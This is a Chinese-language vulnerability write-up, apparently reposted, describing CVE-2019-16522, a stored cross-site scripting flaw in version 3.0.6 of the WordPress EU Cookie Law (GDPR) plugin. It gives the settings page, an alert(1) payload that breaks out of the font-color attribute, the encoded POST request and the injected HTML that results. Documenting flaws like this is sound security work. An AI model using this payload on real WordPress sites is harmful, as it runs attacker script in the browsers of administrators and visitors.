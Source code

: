 # （CVE-2019-16522）WordPress Plugin - EU Cookie Law (GDPR) 储存型 xss

> 原文：[http://book.iwonder.run/0day/Wordpress/4.html](http://book.iwonder.run/0day/Wordpress/4.html)

## 一、漏洞简介

WordPress 的 3.0.6 版 eu-cookie-law 插件（又称为 EU Cookie 法（GDPR））容易受到存储 XSS 的影响，原因是管理区域中几个配置选项的编码不正确以及显示的 Cookie 同意消息。这会影响“字体颜色”，“背景颜色”和“禁用 Cookie”文本。具有高特权的攻击者可以攻击其他用户。

## 二、漏洞影响

wordpress <= 3.0.6，可能更高

## 三、复现过程

```
/wp-admin/options-general.php?page=peadig_eucookie 
```

管理员可以在配置区域为插件设置多个选项。在插入 HTML 页面之前，大多数都可以正确转义。但是，可以利用三个设置值来插入任意 JavaScript 和 HTML。那些是：

字体颜色（ Font Color） 背景颜色 （Background Color） “禁用 Cookie”文本 （"Disable Cookie" Text） “ Fontcolor”的值将插入到显示 Cookie 同意消息的每个页面上。默认情况下，其他两个仅可在管理区域中利用。

以“字体颜色”为例

将字体颜色的值设置为

```
#FFFFFF"><script>alert(1)</script> 
```

便可以突破 HTML 属性并插入 script 包含 JavaScript 的标签

post 包：

```
POST /wp-admin/options.php HTTP / 1.1 
[ ... ] 

[ ... ] peadig_eucookie％5 Bfontcolor％5 D = ％23FFFFFF％22％3E％3Cscript％3Ealert％281％29％3C / script％3E [...] 
```

这时候我们看一下返回值。

在管理区域中，生成的 HTML 页面如下所示

```
<input id="fontcolor" type="text" name="peadig_eucookie[fontcolor]" value="#FFFFFF">
<script>alert(1)</script>
" class="color-field" data-default-color="#ffffff"/> 
```

在带有 cookie 消息的页面上，有效负载将被多次插入。生成的 HTML 如下所示

```
<!-- Eu cookie Law 3.0.6 -->
<div class="pea_cook_wrapper pea_cook_bottomcenter" style="color:#FFFFFF">
    <script>alert(1)</script>
    ;background:rgb(0,0,0);background: rgba(0,0,0,0.85);"> 
```

